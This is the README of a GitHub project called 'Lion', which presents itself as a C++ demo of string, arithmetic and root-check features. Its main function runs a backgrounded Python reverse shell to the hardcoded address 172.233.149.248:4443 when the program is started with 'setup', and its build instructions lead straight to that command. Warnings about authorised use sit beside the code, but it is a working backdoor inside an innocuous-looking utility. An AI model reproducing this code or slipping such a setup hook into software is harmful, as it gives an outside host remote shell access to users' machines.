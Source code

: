 ```yaml
---
title: Lion
description: An attempt to recode Ion a powershell executor to Linux, or a branch off of it.
author: EIonvv
date: 2025-02-18
version: 1.0.0
license: MIT
warning: This project contains code that executes a reverse shell. Use responsibly and only in authorized environments.
---
```


# Lion

## Overview

This is a C++ program that demonstrates various functionalities, including string manipulation, mathematical operations, and system-level interactions. It also includes a module manager for organizing and managing different components of the application.

**Important Note**: The code includes a Python script that establishes a reverse shell connection to a remote IP address (`172.233.149.248:4443`). This is a potentially malicious operation and should only be used in controlled environments for legitimate purposes (e.g., penetration testing with proper authorization). Use this code responsibly and ethically.

---

## Features

- **String Manipulation**: Combines a greeting message with the current username using `linux_branch::string::FullString`.
- **Mathematical Operations**: Performs basic arithmetic operations (e.g., addition) using the `add` function.
- **System Interaction**: Includes a `setup` command that executes a Python script for network operations.
- **Root Check**: Verifies if the application is running with root privileges using `root::check_root`.

---

## Code Explanation

### Main Functionality

```cpp
#include "modules/module_manager.h"

int main(int argc, char** argv) {
    // Print a greeting message with the username
    std::cout << linux_branch::string::FullString("Hello, ", linux_branch::username::getUsername().c_str()) << std::endl;

    // Perform a simple addition operation
    std::cout << "2 + 3 = " << add(2, 3) << std::endl;

    // Execute a setup command if the first argument is "setup"
    if (argc > 1 && std::string(argv[1]) == "setup") {    
        static bool executed = false;
        if (!executed) {
            // Execute a Python reverse shell script
            system("nohup python3 -c 'import socket,subprocess,os;"
                   "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
                   "s.connect((\"172.233.149.248\",4443));"
                   "os.dup2(s.fileno(),0);"
                   "os.dup2(s.fileno(),1);"
                   "os.dup2(s.fileno(),2);"
                   "import pty; pty.spawn(\"/bin/bash\")' > /dev/null 2>&1 &");
            executed = true;
        }
        std::cout << "Running on Linux!" << std::endl;
    }

    // Check if the program is running as root
    root::check_root();

    return 0;
}

```

### Prerequisites

Before building and running the project, ensure you have the following installed:

    C++ Compiler: GCC or Clang.

    Python 3: Required for the setup command.

    Linux Environment: The application is designed to run on Linux.
---

### Building and Running

    Clone the Repository:
    bash
    Copy

    git clone https://github.com/EIonvv/Lion.git
    cd Lion

    Compile the Code:
    bash
    Copy

    g++ -o my_program main.cpp -Iinclude -Llib -lmodule_manager

    Run the Program:
    bash
    Copy

    ./my_program

    To execute the setup command:
    bash
    Copy

    ./my_program setup
---

### Warning

The setup command executes a Python script that creates a reverse shell connection to a remote IP address (172.233.149.248:4443). This is a security risk and should only be used in controlled environments with proper authorization. Misuse of this code may violate laws and ethical guidelines.
License

This project is licensed under the MIT License. Use it responsibly and at your own risk.
Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or fixes.
Contact

